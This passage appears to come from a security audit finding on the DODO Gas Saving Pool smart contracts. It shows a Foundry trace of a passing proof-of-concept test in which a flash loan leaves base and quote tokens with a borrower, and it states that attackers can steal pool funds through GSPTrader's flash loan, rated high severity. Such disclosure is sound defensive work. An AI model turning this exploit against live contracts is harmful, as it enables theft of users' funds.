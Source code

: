 ```bash
    │   │   └─ ← 10000000000000000000 [1e19]
    │   ├─ [1315] 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48::balanceOf(GSP: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]) [staticcall]
    │   │   ├─ [529] 0xa2327a938Febf5FEC13baCFb16Ae10EcBc4cbDCF::balanceOf(GSP: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]) [delegatecall]
    │   │   │   └─ ← 10000000 [1e7]
    │   │   └─ ← 10000000 [1e7]
    │   ├─ [602] 0x6B175474E89094C44Da98b954EedeAC495271d0F::balanceOf(GSP: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]) [staticcall]
    │   │   └─ ← 10000000000000000000 [1e19]
    │   ├─ [1315] 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48::balanceOf(GSP: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]) [staticcall]
    │   │   ├─ [529] 0xa2327a938Febf5FEC13baCFb16Ae10EcBc4cbDCF::balanceOf(GSP: [0x104fBc016F4bb334D775a19E8A6510109AC63E00]) [delegatecall]
    │   │   │   └─ ← 10000000 [1e7]
    │   │   └─ ← 10000000 [1e7]
    │   ├─ emit DODOFlashLoan(borrower: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf, assetTo: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf, baseAmount: 1000000000000000000 [1e18], quoteAmount: 2000000 [2e6])
    │   └─ ← ()
    ├─ [602] 0x6B175474E89094C44Da98b954EedeAC495271d0F::balanceOf(0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf) [staticcall]
    │   └─ ← 1000000000000000000 [1e18]
    ├─ [1315] 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48::balanceOf(0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf) [staticcall]
    │   ├─ [529] 0xa2327a938Febf5FEC13baCFb16Ae10EcBc4cbDCF::balanceOf(0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf) [delegatecall]
    │   │   └─ ← 2000000 [2e6]
    │   └─ ← 2000000 [2e6]
    ├─ [0] console::6c0f6980(0000000000000000000000000000000000000000000000000de0b6b3a764000000000000000000000000000000000000000000000000000000000000001e8480) [staticcall]
    │   └─ ← ()
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.89s
```

## Impact
Malicious actor can steal Base token and Quote token in GSPTrader.sol via GSPTrader.flashoan().
Severity is HIGH as the Base token and Quote token in GSPTrader.sol can be stolen

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/main/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L122-L212
## Tool used

Manual Review
